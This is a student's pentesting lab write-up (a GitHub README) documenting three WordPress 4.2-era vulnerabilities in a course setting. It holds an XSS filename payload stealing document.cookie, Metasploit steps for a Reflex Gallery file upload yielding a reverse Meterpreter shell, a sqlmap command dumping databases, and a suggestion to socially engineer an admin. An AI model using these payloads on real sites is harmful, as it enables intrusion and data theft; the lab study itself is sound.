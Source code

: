 # cis221_codepath

See branches for assignments.

# Project 7 - WordPress Pentesting

Time spent: **25** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

### 1. CVE-2016-7168 -- WordPress 2.5-4.6 - Authenticated Stored Cross-Site Scripting via Image Filename 
  - [ ] Summary: Cross-site scripting (XSS) vulnerability in the media_handle_upload function in wp-admin/includes/media.php in WordPress before 4.6.1 might allow remote attackers to inject arbitrary web script or HTML by tricking an administrator into uploading an image file that has a crafted filename. 
    - Vulnerability types: Cross-site scripting
    - Tested in version: WordPress 4.2
    - Fixed in version: WordPress 4.6.1
  - [ ] GIF Walkthrough: <img src="https://github.com/peelingwave/cis221_codepath/blob/Week-7%268-Project-Wordpress-Vs.-Kali/Pentest1-WP4.2-XSS_ImageUpload_exploit-marvin_codepath.gif" alt="Walkthrough" style="max-width: 100%;">
  - [ ] Steps to recreate: 
    1. Confirm WordPress target host is vulnerable. WP version must be 2.5-4.6.
    2. Create an image file and insert '<img src=a onerror=alert(document.cookie)>' into the filename. This is the paylod script that will cause a javascript alert. For example, I used "marvinc0d3p4th<img src=a onerror=alert(document.cookie)>.jpg"
    3. Use social engineering to have admin of target host to upload image file as an attachment page. Even better is if you can get the admin to use the created attachment page url to embed into a post. 
    <img src="https://github.com/peelingwave/cis221_codepath/blob/Week-7%268-Project-Wordpress-Vs.-Kali/Pentest1-WP4.2-XSS_ImageUpload_exploit-marvin_codepath.png">
  - [ ] Affected source code: (https://github.com/WordPress/WordPress/commit/c9e60dab176635d4bfaaf431c0ea891e4726d6e0)
  
Reference: https://sumofpwn.nl/advisory/2016/persistent_cross_site_scripting_vulnerability_in_wordpress_due_to_unsafe_processing_of_file_names.html


### 2. CVE-2015-4133 -- WordPress Plugin Reflex Gallery - Arbitrary File Upload (Metasploit) 
  - [ ] Summary: This module exploits an arbitrary PHP code upload in the WordPress Reflex Gallery version 3.1.3. The vulnerability allows for arbitrary file upload and remote code execution. 
    - Vulnerability types: Arbitrary file upload, remote code execution.
    - Tested in version: WordPress 4.2, ReFlex Gallery plugin 3.1.3 [reflex-gallery.3.1.3.zip](https://github.com/peelingwave/cis221_codepath/files/8492582/reflex-gallery.3.1.3.zip)
    - Fixed in version: ReFlex Gallery plugin 3.1.4
  - [ ] GIF Walkthrough: 
    ![WP_reflex_gallery_pwned](https://user-images.githubusercontent.com/98624766/163491702-53e1d5cb-5cbf-4be2-b410-b855596067fd.gif)
  - [ ] Steps to recreate: 
    1. Confirm WordPress target host is vulnerable. Reflex Gallery plugin version older than 3.1.4 must be installed and activated.
    2. Upload image into Reflex gallery plugin.
    3. In Reflex gallery settings retrieve the short code and insert it into post. In my case the short code was: [ReflexGallery id='1']
    ![WP_reflex_gallery_pages](https://user-images.githubusercontent.com/98624766/163492792-0498b52d-a217-4414-9fbb-126535e69990.png)

    4. Run metasploit from attacker machine using the following commands:
        - sudo service postgresql start
        - sudo msfdb init
        - msfconsole
    5. in msfconsole shell, run the following commands to install the metasploit payload and create a connection with the target machine:
        - db_status
        - search Reflex #output should be: exploit/unix/webapp/wp_reflexgallery_file_upload
        - use exploit/unix/webapp/wp_reflexgallery_file_upload
        - info
        - set RHOST <url.of.target.machine>
        - set LHOST <url.of.attacker.machine>
        - exploit
    6. Meterpreter shell running, run the following commands to start a new shell inside the target machine:
        - shell
  
  - References:
  - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-4133


### 3. WordPress Olimometer 2.56 SQL Injection
  - [ ] Summary: WordPress Olimometer plugin versions 2.56 and below suffer from a remote SQL injection vulnerability.
    - Vulnerability types: SQLI
    - Tested in version: WP 4.2, Olimometer 2.56
    - Fixed in version: Olimometer 2.57
  - [ ] GIF Walkthrough: ![sqlmap-olimometer](https://user-images.githubusercontent.com/98624766/163496922-57763920-7a90-4562-be8e-2e5273c1307d.gif)

  - [ ] Steps to recreate: 
    1. Ensure WP 4.2 and install Olimometer 2.56 or older onto target machine and activate the plugin. [olimometer.2.56.zip](https://github.com/peelingwave/cis221_codepath/files/8492878/olimometer.2.56.zip)

    2. In Olimometer plugin settings, retrieve short code and insert into post. In my case the short code was: [olimometer id=3]
    ![olimometer_shortcode](https://user-images.githubusercontent.com/98624766/163495767-e013ea2b-952a-477a-87d1-d1059913cd6d.png)

    3. In attacker machine run sqlmap command:
       - sqlmap -u http://path.to.target.machine/wp-content/plugins/olimometer/thermometer.php?olimometer_id=1 --dbs --threads=5 --random-agent --no-cast

  - References: https://packetstormsecurity.com/files/139921/WordPress-Olimometer-2.56-SQL-Injection.html
  
### 4. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 5. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets


## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)


## Notes

Describe any challenges encountered while doing the work

## License

    Copyright 2022 Marvin Datuin

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
